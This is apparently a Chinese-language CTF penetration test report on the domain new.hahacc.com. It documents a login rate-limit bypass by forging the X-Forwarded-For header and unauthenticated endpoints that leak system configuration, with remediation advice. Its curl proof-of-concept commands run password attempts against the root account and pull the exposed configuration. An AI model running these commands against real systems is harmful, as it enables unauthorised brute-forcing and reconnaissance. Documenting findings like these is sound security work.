

# 渗透测试报告：new.hahacc.com（CTF）

- 测试日期：2026-05-26
- 目标：`new.hahacc.com`
- 范围：仅目标域名与其暴露接口
- 方法：被动信息收集 + 接口枚举 + 认证与限速机制验证

## 结论摘要

本次发现 2 类核心问题：

1. 登录限速可被 `X-Forwarded-For` 伪造绕过（高危）
2. 多个未认证接口暴露系统敏感运行配置（中危）

## 漏洞 1：登录限速绕过（XFF Header Trust）

- 风险等级：高危
- 影响接口：`POST /api/user/login`
- 漏洞描述：
  服务端在未校验代理链可信性的情况下，疑似使用可控请求头（`X-Forwarded-For`）作为限速维度。攻击者可通过伪造或轮换 XFF 绕过 429 限流，实施高并发口令尝试。

### 复现命令（PoC）

```bash
# 1) 不带伪造头：触发限速
curl -k -s -o /dev/null -w "%{http_code}\n" \
  -H "Content-Type: application/json" \
  -X POST "https://new.hahacc.com/api/user/login?turnstile=" \
  --data '{"username":"root","password":"12345678"}'
# 结果：429

# 2) 带伪造 XFF：恢复可请求（绕过限速）
curl -k -s -o /dev/null -w "%{http_code}\n" \
  -H "Content-Type: application/json" \
  -H "X-Forwarded-For: 10.0.0.123" \
  -X POST "https://new.hahacc.com/api/user/login?turnstile=" \
  --data '{"username":"root","password":"12345678"}'
# 结果：200
```

### 证据

- 无 XFF 连续请求：`429`
- 轮换 XFF 连续请求：`200`

### 修复建议

1. 仅信任反向代理层注入的真实源 IP（例如 Nginx `real_ip` + 可信代理白名单）。
2. 应用层限速基于可信源地址 + 账户维度 + 设备指纹组合。
3. 对 `X-Forwarded-For` 进行严格来源验证，禁止客户端直传覆盖。
4. 增加登录失败延迟与账户保护策略（滑窗、指数退避、验证码升级）。

## 漏洞 2：未认证敏感信息暴露（状态与业务配置）

- 风险等级：中危
- 影响接口：
  - `GET /api/status`
  - `GET /api/pricing`
  - `GET /api/setup`
- 漏洞描述：
  未登录状态可获取完整系统运行配置、功能开关、OAuth/Passkey 参数、组策略与模型/计费策略等信息，可被用于精准攻击面构建与撞库策略优化。

### 复现命令（PoC）

```bash
curl -k -s https://new.hahacc.com/api/status
curl -k -s https://new.hahacc.com/api/pricing
curl -k -s https://new.hahacc.com/api/setup
```

### 关键暴露点示例

- `self_use_mode_enabled`
- `turnstile_check`
- `passkey_rp_id` / `passkey_origins`
- `supported_endpoint` / `group_ratio` / `usable_group`
- `setup` 与 `root_init` 状态字段

### 修复建议

1. 将高敏配置下沉到认证后接口，仅返回最小前端展示字段。
2. 对匿名接口输出建立字段白名单，默认拒绝内部配置字段。
3. 对初始化状态接口进行访问控制与返回值最小化（避免状态推断）。

## 攻击路径图



## 其他测试记录

- 端口层面发现多个开放端口（22/80/443/3000/3306/5000/5432/6379/8080/8443/9200/27017），但多数服务指纹受限，未在本次范围内进一步利用。
- 接口批量探测中多数受认证保护（401），说明核心业务仍有基础鉴权。

## 风险结论

该目标主要风险不在“直接未授权登录”，而在“可被绕过的防爆破控制 + 过量匿名信息暴露”。组合利用时可显著降低攻击成本。

